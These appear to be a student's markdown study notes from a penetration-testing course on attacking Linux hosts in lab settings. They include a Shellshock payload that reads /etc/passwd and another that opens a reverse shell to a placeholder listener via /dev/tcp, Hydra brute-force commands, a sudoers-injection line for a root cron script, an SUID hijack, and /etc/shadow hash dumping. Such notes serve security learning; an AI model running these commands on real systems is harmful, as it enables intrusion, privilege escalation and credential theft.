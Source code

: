 ```yaml
---
id: s17h78hzadwl5iybh8u1iuj
title: Linux_host_based_attacks
desc: ''
updated: 1675114318984
created: 1675114312834
---
```

# Linux: System/Host based Attack

## Frequently Exploited Linux services

* Apache Web Server
    * 80/443
* SSH
    * 22
* FTP
    * 21
* SAMBA
    * 445
    * Linux (open source) implementation of SMB

## Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

* Exploits bash + Apache
* Summary, if the following sequence is inputted to bash, all the following cmd will also be executed
    * (){:;};,
* If CGI is enabled in Apache, this might allow RCE on linux
* Lab
    * Find out the CGI uri
        * open the web app in browser and study the source html
    * Exploitation
        * Option 1: Burp suite
            * Setup proxy
            * Identify the CGI interaction and send to repeater
            * Change the user agent string to
                * () { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’ (demo)
                * Get reverse shell
                    * Setup listener —> nc -nvlp 1234
                    * () { :; }; echo; echo; /bin/bash -c ‘bash -I>&/dev/tcp/listener_ip/1234 0>&1’
        * Option 2: Metasploit
            * Use exploit/multi/http/apache_mod_cgi_bash_env_exec
            * Set rhosts; set targeturi; exploit
            * This will result in a meterpreter session

## Exploiting FTP:

Refer notes on Enumerating FTP

Demo was about checking Anonymous access and brute forcing login with Hydra

## Exploiting SSH

Refer Enumerating SSH section for basics

Demo shows brute forcing via Hydra : hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.166.196.3 ssh

## Exploiting SAMBA

For basic, refer Enumerating - SMB notes.

SAMBA is the open source implementation of SMB

SAMBA exploitation is also covered in Metasploit section

Demo speaks about brute force using hydra and then login using smbmap (tool available on kali) to login and enumerate the shares.

Use smbclient to mount the shares and enumerate files:
* Smbclient \\ip\share -U admin —> to login


## Linux Privilege Escalations

### Linux Kernel Exploits

* Exploiting kernel to run arbitrary code
    * Code runs with privileged access by default
* Kernel exploits are often unstable if wrongly matched, can take down the target system
* Tools
    * Linux Exploit suggester : github.com/mzet-/linux-exploit-suggester
* Demo
    * The instructor has already acquired a meterpreter session
        * Username: www-data
    * Inside linux-exploit-suggester
        * LES- Linux privilege escalation auditing tool
        * Upload the les.sh to target
            * /bin/bash -I
                * ./les.sh
                    * Enumerates the list of vulnerabilities that apply to this linux bistro
                        * Exploit listed at the top have the highest probability
        * Identified dirty cow as one of the plausible vulnerability
            * Navigate to exploit suggested by LES
                * Exploit DB
                    * Compile code and then run it on target
                        * Sudo apt-get install gcc
                    * Sometimes the c code needs to be compiled on target machine
                    * Running the exploit will create the specified username and password with privileged access

### Exploiting misconfigured cronjob

* Cronjob created through root user will have root privileges
* The exploit manipulated cronjobs created by root to execute arbitrary commands
* Demo Lab: (Has been setup with a lot of assumption, not very realistic)
    * Demo was given with login for student user, does not have privileged access to system
    * By examining, the home folder for student, a message file was found
        * This file is created and owned by root
        * We are making an assumption that this might be a cronjob
    * grep -rnw /usr -e "/home/student/message"
        * Will find all the files with the path to that file, hoping to find a script which is executed by cronjob
            * /usr/local/share/copy.sh was found
    * Assuming that copy.sh is executed by cronjob, we insert arbitrary code into that file
        * printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
            * This grants sudo access to student
    * So, when the copy.sh is executed by cron, our arbitrary code is executed with privileged access, granting student sudo access

### Exploiting SUID binaries

* SUID - Set Owner User ID
* When SUID bit is assigned to a file/binary, the file can be executed with the permissions of the owner
    * Ex: if a binary is owned/create by root and has the SUID bit assigned. A unprivileged user can run that binary with root access. A privilege escalation can be executed by manipulating/exploiting the functionality/vulnerability of the binary.
    * Sudo is one such binary which allow user to execute it as root, but required a password for root.
￼   ![suid_bit](assets/images/linux_host_based_attacks/suid_bit.png)
* As you can see the “s” bit is enabled on welcome binary, and it can be executed student. Which means welcome will be executed with root privileges
* Upon analyzing welcome file
    * file welcome
        * Will give you metadata about the file
    * string welcome
        * Will display all the string (cmds) executed by welcome
        * Upon browsing the information, it seems the welcome file calls upon greetings file
* Since greetings is located in students home
    * We can delete the greetings file and create a bash binary instead
        * cp /bin/bash greetings
* Upon executing welcome, greetings will be called and a bash session with root privileges will be opened.

### Dumping linux password hashes

* Password hashes are listed in /etc/shadow
* The hashing algo can be identified by:
    ![hash_format](assets/images/linux_host_based_attacks/hash_format.png)
    * SHA-256 and SHA-512 are difficult to crack, takes more time.
* Demo
    * Nmap -sV target
        * Reveals a vulnerable ProFTPD version
    * Searchsploit ProFTPD
        * Reveals a metasploit module for the fingerprinted version
    * Msfconsole
        * Search ProFTPD
            * Run that module
        * This will give a command shell
            * /bin/bash -I
                * Will provide a bash shell
        * The user account compromised is root’s
        * We can upgrade the bash to meterpreter by
            * ctrl+z -> send bash to background
            * Sessions -u <id> —> will provide an meterpreter session
        * Cat /etc/shadow will dump the hash
        * Or 
            * Metasploit module /post/linux/gather/hashdump can be used to dump hashes
                * Set session <id> ; run
